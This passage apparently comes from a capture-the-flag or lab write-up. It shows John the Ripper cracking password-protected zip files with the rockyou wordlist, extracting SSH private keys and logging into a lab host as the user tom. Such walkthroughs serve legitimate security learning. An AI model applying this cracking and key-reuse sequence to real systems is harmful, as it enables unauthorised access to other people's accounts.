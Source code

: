 Try to break the hashes via `john`
```bash
$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)     
catwoman         (cathrine.zip/id_rsa)     
2g 0:00:00:03 DONE (2023-01-13 04:16) 0.5952g/s 4268Kp/s 4271Kc/s 4271KC/s !LUVDKR!..*7¡Vamos!
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> We found two passwords! `tom.zip:iubire` and `cathrine.zip:catwoman`.
{: .prompt-info }

Lets unzip the `zip` files to get the `id_rsa` keys we probably can use to log in to the system.
```bash
$ unzip tom.zip         
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa

$ mv id_rsa id_rsa_tom
$ chmod 600 id_rsa_tom

$ unzip cathrine.zip 
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: id_rsa

$ mv id_rsa id_rsa_cathrine
$ chmod 600 id_rsa_cathrine
```

Check if we can log in with the private keys.
```bash
$ ssh -i id_rsa_cathrine cathrine@192.168.214.107
Connection closed by 192.168.214.107 port 22

$ ssh -i id_rsa_tom tom@192.168.214.107       
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 13 09:31:20 UTC 2023

  System load:  0.0               Processes:             165
  Usage of /:   74.7% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.214.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jan 13 09:19:26 2023 from 192.168.49.214
To run a command as administrator (user "root"), use "sudo <command>".
```